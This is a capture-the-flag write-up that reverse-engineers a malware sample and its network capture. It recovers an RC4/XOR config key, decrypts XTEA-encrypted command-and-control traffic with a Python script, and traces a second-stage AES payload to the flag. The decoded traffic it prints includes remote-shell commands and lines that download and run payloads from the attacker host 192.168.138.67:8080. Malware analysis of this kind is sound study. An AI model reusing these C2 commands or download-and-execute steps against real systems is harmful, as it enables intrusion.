 ```yaml
---
title: Rev Capture Point 2025
published: 2025-04-22
description: This is first challenge Rev I solved in Malware category 
tags: [Example, Video]
category: Examples
draft: true
---
```


# REV CapturePoint
>Solver: kAiZ3n
>Artifact : sample.exe and capture.pcap

First I see the program was using ws_32.dll to open socket connect with TCP
```
 v15 = socket(2, 1, 6);
```
```
 ModuleHandleW = GetModuleHandleW(0LL);
      v5 = GetModuleHandleW(0LL);
      ResourceA = FindResourceA(v5, "DATA", "CONFIG");
      v7 = ResourceA;
      if ( ResourceA
        && (v8 = SizeofResource(ModuleHandleW, ResourceA), (Resource = LoadResource(ModuleHandleW, v7)) != 0LL)
        && (v10 = LockResource(Resource)) != 0LL
        && v8 >= 0x42 )
      {
        v11 = malloc(v8);
        memset(v11, 0, v8);
        memcpy(v11, v10, v8);
        sub_140001750(v11, v8);
        cp = (char *)v11;
```
Here is The program was looking Source for "cp" on itself PEs file with the size of resource == 0x42 we'll use PEbear and HxD to look up exactly value it 
and it seems ipaddr and port to open socket was be obfuscated in cp variable and this func for handling 
![image](/images/hackmd/HypI4ucTkg.png)
in the key logic in this func , which'll create key and decrypt RC4
Here is func created key 
![image](/images/hackmd/ByUSrd9aJl.png)
```
def generate_key(data: bytes) -> bytes:
    return bytes([b ^ 0x2F for b in data])

# Test
input_data = b"xg`nakxgj}jf|bvbn|{j}"

key = generate_key(input_data)
print("Generated Key:", key)


Generated Key: b'WHOANDWHEREISMYMASTER'
```
and then we'll find data of "CONFIG" resouce to decrypt it with key above in PE file
```
*(_WORD *)hKey.sa_data = htons(*((_WORD *)cp + 32));
*(_DWORD *)&hKey.sa_data[2] = inet_addr(cp);
```
After Decrypting I got Ip address of attacker 
- ip.addr == 192.168.138.67
- port == cp[32] == "P" == to int == 80
![image](/images/hackmd/Sy8gdv9TJg.png)
Oke the next step I'll start proccessing pcap file with available details also we looked up 
![image](/images/hackmd/HkLq_wq6kg.png)
I recognized attacker sended out a few encrypted payload to client and processed it as commandHandler program . ThereFore I looked up API call recv from ws_32.dll windows to check it out
At here 
![image](/images/hackmd/HJNUtPqa1e.png)
the payload sended out in sub_1400020C0()
and then I'll analysis sub_1400020C0 function
![image](/images/hackmd/Hk1AYD9p1e.png)
the key logic in here the payload'll be decrypted with base64 and then it'll compare the first char if it == "D" which slipt command with delitermine "|" and then store them in v10 and the next in v11
Otherwise if it == "E" which decrypted one more with payload'll be send it in sub_1400019F0 (I'll replace sub_1400019F0 to CommandHandler for convinient with my next process)
and after handling it'll split the same with condition of char "D"
the logic code of commandHandler func as decrypting use XXTEA alogrithm
Because the payload 1 was be recognized as "D" condition so it use v10 = "KEYEXCH" and v11 = "ENCRYPTTRAFFIK07" and this case'll save data of qword_1400086F0 as key for decrypting in CommandHandler
![image](/images/hackmd/ryuonwc6yl.png)
we'll use it to decrypting with "E" condition 
I wrote script for decrypting 
```
import base64
import struct
COMMANDS = {
        222930539: "SAVE_DATA",
        691556979: "RUN_PROCESS",
        -1988075216: "WRITE_PIPE",
        697129745: "CLEANUP",
        224984815: "CUSTOM_ACTION",
        1354554278: "READ_FILE",
        224984815 : "DOWNEXEC"
    }
def xtea_decrypt(key, block):
    v0, v1 = struct.unpack('>2L', block)
    delta = 0x9E3779B9
    mask = 0xFFFFFFFF
    sum = (delta * 32) & mask
    for _ in range(32):
        v1 = (v1 - ((v0 << 4 ^ v0 >> 5) + v0 ^ sum + key[sum >> 11 & 3])) & mask
        sum = (sum - delta) & mask
        v0 = (v0 - ((v1 << 4 ^ v1 >> 5) + v1 ^ sum + key[sum & 3])) & mask
    return struct.pack('>2L', v0, v1)

def decrypt_gorillabot_data(encrypted_data, keystream):
    key = [struct.unpack('>L', keystream[i:i+4])[0] for i in range(0, 16, 4)]
    decrypted_data = b''
    for i in range(0, len(encrypted_data), 8):
        decrypted_data += xtea_decrypt(key, encrypted_data[i:i+8])
    return decrypted_data.rstrip(b'\x00')
def decode_input(input_str):
    try:
        decoded = base64.b64decode(input_str)
        
        # Kiểm tra định dạng
        if decoded[0] == ord('D'):
            return decoded[1:]
        elif decoded[0] == ord('E'):
            keystream = b'ENCRYPTTRAFFIK07'[:16]
            result = decrypt_gorillabot_data(decoded[1:],keystream)
            return result
        else:
            return "Invalid format"
    except Exception as e:
        return f"Error: {e}"
inputs = [
    "REtFWUVYQ0h8RU5DUllQVFRSQUZGSUswNw==",
    "RS1J1SxUJcq0y6CmpvlFHTUxUub0NrsRb96TEwoWI5GFR0RM/jkk9ZA=",
    "RXUBvuF7XzYu3La0O/fiqLx3nHSXTn7Ghw==",
    "RT6v61YF2uq+B5OOcTNe7h8=RT6v61YF2uq+B5OOcTNe7h8=",
    "RSPPpIhlKGAsCmnkR3kD+uD5g30DH199VGWitl4BFgiF7LhZMn4GWFBrg40R9ty2p1pAStWd399I==",
    "RSPPpIhlKGAsCmnkR3kD+uD5g30DH199VGWitl4BFgiF7LhZMn4GWFDRIh1agXJSpaR7Fxcm+fFl==",
   ]
def ror(value, bits, width=32):
    """Xoay phải (ROR) giá trị 'value' đi 'bits' bit trên 'width' bit."""
    return ((value >> bits) | (value << (width - bits))) & ((1 << width) - 1)

def calculate(input_string: str) -> int:
    v10 = list(input_string.encode()) 
    v13 = 0 
    v15 = len(v10)  
    
    while v15 > 0:
        v16 = v10.pop(0) 
        v13 = v16 + ror(v13, 13)
        v15 -= 1 

    return v13
for idx, input_str in enumerate(inputs):
    print(f"Input {idx + 1}:")
    result = decode_input(input_str)
    print(f"  Decoded: {result}\n")
```
Artifact after decrypting
Input 1:
  Decoded: ['KEYEXCH', 'ENCRYPTTRAFFIK07']

Input 2:
  Decoded: b'CMDSHEL|C:\\windows\\system32\\cmd.exe'

Input 3:
  Decoded: b'EXECCMD|cd %temp%\n'

Input 4:
  Decoded: b'EXITSHEL'

Input 5:
  Decoded: b'DOWNEXEC|http://192.168.138.67:8080/data.png|DEKRYPT|0'

Input 6:
  Decoded: b'DOWNEXEC|http://192.168.138.67:8080/data.txt|DEKRYPT|1'
 
Amazing when it's using port 8080 to download the payload else 
when it run in "DOWNEXEC" case 

![image](/images/hackmd/Hk7sRvcpJg.png)
oke let'go,we look at the PCAP file a bit
![image](/images/hackmd/SJW6i39akg.png)
As with Payload, I was Decrypt, now come back to source code IDA
the strings'll continuely split with v22 = "DEKRYPT" , v25 ="0" (if input 5 and = "1" with input 6) and then it'll convert bytes to UNICODE and v25 = v22 = "DEKRYPT" and sub_140002890() will continue handling the payload data.png or data.txt I follow to this function and I recoginzed the meaning of the last char of input for "0/1"
if it is "0" which will download file and save in folder **%temp%\kri<randomstring>.tmp** or it is "1" which will  download file and run this file  with ```<namefile> "DEKRYPT"```
I'll download file data.txt with parameter "1" to figure it out doing
The file is PEs be written by C program 
![image](/images/hackmd/ryb8-_qa1g.png)
At main code it using argv[1] to convert Unicode and send it in sub_140001260
![image](/images/hackmd/HkaO-_9pJx.png)
at the key logic of this func is using AES algorithm with key was using the hash algorithm '**sha256 of"DEKRYPT"**' from **argv[1]** ran with the first PE with CreateProcess at v27 variable 
    ![image](/images/hackmd/rJTyGu5p1g.png)
and the encrypted data is data.png (data.png I got it from pcap tcp stream of ip.addr==192.168.138.67 and tcp.port==8080)
oke After grabs logic code I'll handle data.png decrypt it with key "DEKRYT" and got flag 
nai xừ :D
![image](/images/hackmd/HkCyQu5aJl.png)
